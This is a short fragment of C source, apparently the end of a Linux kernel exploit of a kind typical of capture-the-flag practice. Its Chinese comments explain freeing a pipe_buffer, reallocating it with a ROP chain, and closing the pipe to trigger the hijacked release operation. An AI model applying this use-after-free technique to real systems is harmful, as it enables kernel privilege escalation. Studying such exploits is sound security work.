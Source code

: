 ```c
    // 将pipe_buffer释放
    note_free(0);
    // 然后瞬间申请回来，往里面写rop
    note_add(0, PIPE_BUFFER_SZ, buf);

    info("Triggering exploit by close pipe...");

    // 通过close pipe的两端，就会触发pipe_buffer->pipe_buffer_operations->release
    close(pipe_fd[1]);
    close(pipe_fd[0]);

    info("exiting...");

    return 0;
}
```





